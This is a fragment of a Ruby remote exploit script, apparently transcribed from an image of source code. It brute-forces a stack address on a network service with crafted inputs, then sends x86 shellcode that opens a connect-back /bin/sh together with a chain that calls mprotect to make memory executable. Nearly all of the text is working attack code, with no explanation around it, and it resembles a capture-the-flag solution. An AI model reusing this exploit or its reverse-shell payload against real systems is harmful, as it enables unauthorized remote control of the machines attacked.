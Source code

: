 print program_name.to_s(16),"\n"
t.close

count = 0
ret = 0
stack = program_name & 0xffffff00;
stack += 0xc;
until ret == 0x08049809
 stack -= 0x10
 t = TCPSocket.new(host, port)
 t.print "3\n1\n1\n1\n2\n3\n1\n\x41\x41\x41\x41\x78\x99\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\xFF\xc8\xb0\x04\x083\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\x00\n3\n1\n\x41\x41\x41\x41"+[stack].pack("L")+"\x01\x00\n3\n2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB\xd0\xb0\x04\x08\n1\np\n"
 ret = (t.read 0xfaf)[-4,4].unpack("L")[0]
 t.close
 count += 1
end

print stack.to_s(16), " in ", count.to_s, " tries.\n";
sleep 1

shellcode = "\x31\xc0\x6a\x01\x5b\x50\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x43\x5f\x68\x7e\xff\xfe\xff\x81\x04\x24\x01\x01\x01\x01\x68\x01\xff\x06\xad\x81\x04\x24\x01\x01\x01\x01\x6a\x10\x51\x50\x89\xe1\xb0\x66\xcd\x80\x5b\x31\xc9\x6a\x3f\x58\xcd\x80\x41\x80\xf9\x03\x75\xf5\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80\xeb\xfe";

return_addr = [(stack-0x70-0x8)].pack("L")
buffer_addr = [(stack-0x184+0x10)].pack("L")
mprotect = [(libc_start_main+0xC3978)].pack("L") # 0xC3978 is dependent on libc

t = TCPSocket.new(host, port)
t.print "3\n1\n1\n1\n2\n1\n3\n3\n3\n"+shellcode+"\n3\n1\n\x41\x41\x41\x41\x78\x99\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\xFF"+return_addr+"3\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\x00\n3\n1\n\x41\x41\x41\x41\x1c\xb0\x04\x08\x01\x00\n3\n2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB\xd0\xb0\x04\x08\n1\np\n10\n3\n4\n\xa8\x98\x04\x08"+buffer_addr+"\xac\x94\x04\x08DDDDEEEE"+mprotect+"\xd8\xb2\x04\x08\x00\xb0\x04\x08\x00\x10\x00\x00\x07\x00\x00\x00\n"
sleep 2
t.close
</pre>